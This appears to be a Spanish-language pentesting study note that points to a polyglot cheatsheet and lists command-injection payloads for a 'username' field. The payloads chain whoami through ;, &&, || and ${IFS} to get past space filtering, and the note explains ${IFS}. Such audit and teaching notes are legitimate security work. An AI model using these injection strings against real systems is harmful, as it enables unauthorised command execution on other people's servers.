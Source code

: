 -----------------
- Tags: #teoria #practica #basico #explotación
-------
# Reflecting Techniques - PoCs and Polygloths CheatSheet
### De cara a una auditoria, muchas veces nos encontraremos con un INPUT en el cual nosotros podemos controlar los valores, es depende de la seguridad y prevención de como este desarrollada la página que podremos llegar a acontecer fallos, explotaciones u ocacionar respuestas no esperadas. Por lo que puede ser interesante tener en cuenta la siguiente [CheatSheet](https://book.hacktricks.xyz/pentesting-web/pocs-and-polygloths-cheatsheet) para probar en caso de que tengamos un input vulnerable.

### Por ejemplo, puede ser intereante de cara a un input como **'username'**, pensar que este es leido e interpretado en la consola, e intentar muchas maneras diferentes de intentar exlotar este.

```bash
username='dobliuw; whoami'
username='dobliuw; whoami; echo'
username='dobliuw && whoami'
username='dobliuw || whoami'
username='dobliuw;${IFS}whoami'
username='dobliuw;${IFS}whoami;${IFS}echo}'
```
### **${IFS}** es una variable especial que determina cómo se dividen las palabras en una cadena cuando se realiza una expansión de campo o una separación de palabras en una shell de Unix. Con esta variable se puede lograr que la entrada del usuario se interprete como una expansión de campo y puede tener un impacto en la forma en que se procesa la cadena.



